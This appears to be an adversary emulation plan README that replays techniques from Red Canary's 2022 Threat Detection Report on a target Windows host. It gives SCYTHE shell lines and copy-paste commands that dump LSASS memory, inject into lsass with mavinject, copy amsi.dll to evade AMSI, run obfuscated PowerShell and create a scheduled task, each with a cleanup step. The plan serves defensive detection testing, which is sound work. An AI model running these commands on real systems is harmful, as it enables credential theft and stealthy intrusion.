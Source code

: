 # Red Canary - Emulation Plan

Red Canary is legitamete company and not a threat actor. However, they release actionable Cyber Threat Intelligece and hence why we have added it to our community threats GitHub.

## 2022 Threat Detection Report
Red Canary released the 2022 Threat Detection Report in March 2022 and it includes the top techniques they observed over the past year: https://redcanary.com/threat-detection-report/techniques/ 

### Automated Emulation with SCYTHE
This threat chains together the top techniques from the Red Canary 2022 Threat Detection Report.

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/RedCanary
4. Create a new campaign `RedCanary2022` with HTTPS.
5. Import from Existing Threat: `RedCanary2022`
6. Launch the Campaign

### Manual Emulation with SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a SCYTHE shell:
```
loader --load run
run powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
run cmd.exe "%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt"
run rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe
run wmic /node:"127.0.0.1" process call create "calc.exe"
run powershell (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt
run schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\Windows\Temp\current_date.txt"
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\obfuscation.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1
run cmd.exe /c copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe
run cmd.exe /c C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
run cmd.exe /c copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
run cmd.exe /c copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
run cmd.exe /c %APPDATA%\updater.exe -Command exit
controller --integrity
run powershell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full
run powershell mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll
STEP = CLEANUP
run cmd.exe /c del hello.txt
run wmic process where name="notepad.exe" delete
run wmic process where name="Calculator.exe" delete
run cmd.exe /c del tweet.ps1
run cmd.exe /c del obfuscation.ps1
run cmd.exe /c del LICENSE.txt
run cmd.exe /c del C:\Windows\Temp\notepad.exe
run cmd.exe /c del %APPDATA%\updater.exe
run cmd.exe /c del %APPDATA%\amsi.dll
run schtasks /Delete /TN CMDTestTask /F
controller --integrity
run cmd.exe /c del C:\Windows\Temp\lsass.dmp
```

### Manual Emulation without SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a target host by copying and pasting these procedures:
1.  `powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
2. `%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del hello.txt` 
3. `rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`
4. `wmic /node:"127.0.0.1" process call create “calc.exe”`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="calc.exe" delete`
    * Note the version of Windows may call the process `Calculator.exe` or `CalculatorApp.exe`
5. `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full`
    * Execute this from a privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\lsass.dmp`     
6. `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt`
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`   
    * Clean up by executing: `del LICENSE.txt`
7. `mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll`
    * Execute this from a privileged powershell.exe
    * Clean up by rebooting
8. `schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR ""cmd /c date /T > C:\Windows\Temp\current_date.txt"`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `schtasks /Delete /TN CMDTestTask /F`
9. ```$cmDwhy =[TyPe]("{0}{1}" -f 'S','TrING')  ;   $pz2Sb0  =[TYpE]("{1}{0}{2}"-f'nv','cO','ert')  ;  &("{0}{2}{3}{1}{4}" -f'In','SiO','vOKe-EXp','ReS','n') (  (&("{1}{2}{0}"-f'blE','gET-','vaRIA')  ('CMdw'+'h'+'y'))."v`ALUe"::("{1}{0}" -f'iN','jO').Invoke('',( (127, 162,151, 164,145 ,55 , 110 ,157 ,163 , 164 ,40,47, 110 , 145 ,154, 154 ,157 , 54 ,40, 146, 162 , 157,155 ,40, 120, 157 ,167,145 , 162 ,123,150 ,145 , 154 , 154 , 41,47)| .('%') { ( [CHAR] (  $Pz2sB0::"t`OinT`16"(( [sTring]${_}) ,8)))})) )```
    * Execute this from a non-privileged powershell.exe
10. `copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe` & `C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\notepad.exe`
11. `Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1`
    * Download tweet.ps1 to the working directory 
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `del $Env:windir\Temp\svchost.exe`
12. `copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe` & `copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll` & `%APPDATA%\updater.exe -Command exit`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del %APPDATA%\updater.exe` & `del %APPDATA%\amsi.dll`
